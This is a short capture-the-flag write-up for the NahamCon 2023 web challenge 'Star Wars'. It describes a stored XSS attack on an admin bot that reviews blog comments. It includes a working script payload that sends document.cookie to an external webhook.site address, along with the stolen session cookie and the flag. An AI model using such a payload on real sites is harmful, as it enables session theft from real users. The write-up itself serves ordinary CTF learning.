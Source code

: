 # NahamCon 2023

## Star Wars

> If you love Star Wars as much as I do you need to check out this blog!
>
>  Author: @congon4tor#2334
>

Tags: _web_

## Solution
After opening the side and signing in as a new user we can see a post from `admin` with a comment section. New comments are marked for review before publicly readable.

```
"This comment is not public it needs to be reviewed"
```

After some seconds the sign disappears so `"admin"` is reviewing all the comments in the background. This is a typical XSS setup, creating a `webhook` and entering the following as comment:

```html
<script>new Image().src="https://webhook.site/8323f3dd-c087-48b6-bd78-9c42ddfa720d?"+document.cookie;</script>
```

A few seconds later the admin reviews the comment and leaks his session cookie.

```
x-wing:eyJfcGVybWFuZW50Ijp0cnVlLCJpZCI6MX0.ZI2h9w.JGh3uP_Ykwp8wx6g8t7drzCrw2w
```

Using the cookie gives a new `admin` option in the title bar, by clicking this option the flag is given.

Flag `flag{a538c88890d45a382e44dfd00296a99b}`
